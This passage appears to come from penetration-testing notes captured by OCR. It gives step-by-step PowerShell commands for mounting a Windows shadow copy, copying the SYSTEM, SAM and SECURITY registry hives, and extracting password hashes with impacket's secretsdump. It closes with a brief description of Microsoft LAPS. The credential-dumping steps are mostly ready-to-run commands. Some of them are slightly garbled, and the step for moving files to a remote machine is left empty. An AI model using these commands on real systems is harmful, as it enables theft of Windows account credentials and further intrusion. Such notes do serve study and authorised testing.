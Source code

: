 To copy items from a shadow copy volume in PowerShell, you can use the following approach:

```powershell
# List shadow copies
vssadmin list shadows

# Mount a shadow copy (replace X: with an unused drive letter)
cmd.exe //c mklink /d X:\ \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{shadow_copy_id}\

# Copy files from the shadow copy
Copy-Item -Path "X:\path\to\file" -Destination "C:\destination\path" -Recurse

# Unmount the shadow copy
Remove-Item X:\ -Force
```

Replace `{shadow_copy_id}` with the actual ID of the shadow copy you want to access. This process mounts the shadow copy, allowing you to copy files from it like any other directory.

Here’s a general outline of the steps:

1. **Create a Shadow Copy**:
   Use `vssadmin` to create a shadow copy:
   ```shell
   vssadmin create shadow /for=C:
   ```

2. **Access the Shadow Copy**:
   Identify the shadow copy ID from `vssadmin list shadows` and mount it:
   ```shell
cmd c:// mklink /d X:\ \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{shadow_copy_id}\
   ```

3. **Copy the Required Files**:
   Copy `SYSTEM`, `SAM`, and `SECURITY` from the shadow copy:
```cmd
Copy-Item "X:\Windows\System32\config\SYSTEM" "C:\path\to\destination\"
Copy-Item "X:\Windows\System32\config\SAM" "C:\path\to\destination\"
Copy-Item "X:\Windows\System32\config\SECURITY" "C:\path\to\destination\"
```

4. **Transfer Files to a Remote Machine**:

5. **Decrypt Hashes**:
   On the remote machine, use `impacket-secretsdump` to extract hashes:
   ```shell
   secretsdump.py -system SYSTEM -sam SAM -security SECURITY LOCAL
   ```

Make sure to replace paths with actual locations and shadow copy IDs.

## LAPS

**Local Administrator Password Solution (LAPS)** is a Microsoft tool designed to manage the local Administrator password on domain-joined computers in a secure manner. It ensures that each computer in a domain has a unique, automatically changing local Administrator password, which is stored securely in Active Directory (AD).
